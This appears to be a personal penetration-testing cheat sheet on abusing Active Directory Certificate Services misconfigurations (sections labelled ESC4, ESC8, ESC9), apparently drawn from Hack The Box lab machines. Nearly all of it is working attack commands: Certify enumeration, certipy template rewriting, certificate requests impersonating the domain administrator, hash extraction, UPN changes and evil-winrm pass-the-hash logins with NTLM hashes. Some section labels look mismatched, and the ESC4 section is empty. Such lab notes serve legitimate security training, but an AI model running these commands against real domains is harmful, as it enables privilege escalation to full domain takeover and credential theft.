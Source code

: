 - should give hash for administrator for pass-the-hash (use part after the colon)
	- if nameserver error, try replacing `manager.htb` with ip of machine
- if clockskew error, run:
```
sudo ntpdate 10.129.42.194
```
- should sync time to machine, then run prior command
- may take multiple attempts


##### ESC4

##### ESC8 (Shadow Credentials)
Find user with WriteOwner & WriteDACL permissions (in Cert Publishers group for example)
- upload Certify.exe to target machine as any user and run:
```
./Certify.exe find /domain:sequel.htb
```
![[Pasted image 20250320090619.png]]
- Find template that lists users with `WriteOwner` and `WriteDacl` permissions that you control
	- `SUBJECT_ALT_REQUIRE_DNS` prevents using a user UPN, need to remove
	- `ENROLLEE_SUPPLIES_SUBJECT` is missing and needs to be added
	- Use these [[AD#If user (ryan) has writeOwner permissions over another user (ca_svc), run these commands in fast sequence|steps]] to gain control of user within a group listed in template that you have writeOwner privs over and get hash used below
- In example below, found template named DunderMifflinAuthentication and ca_svc is a member of Cert Publishers so inherits group permissions
```
KRB5CCNAME=$PWD/ca_svc.ccache certipy template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
```
![[Pasted image 20250320090923.png]]
```
certipy req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug
```
![[Pasted image 20250320091237.png]]
```
certipy auth -pfx administrator_10.pfx -domain sequel.htb -dc-ip 10.10.11.51 -debug
```
![[Pasted image 20250320091306.png]]
```
evil-winrm -i 10.10.11.51 -u 'administrator' -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
```

#### ESC9
conditions:
- StrongCertificateBindingEnforcement not set to 2 (default: 1) or CertificateMappingMethods contains UPN flag
- Certificate contains the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value
- Certificate specifies any client authentication EKU
- attacker must have access to an account that has GenericWrite over the other account
```
certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.10.11.41
```
![[Pasted image 20250324201041.png]]
- abusing management_svc's GenericAll over ca_operator to change userPrincipalName of ca_operator to be Administrator
```
certipy req -u ca_operator -hashes :259745cb123a52aa2e693aaacca2db52 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
```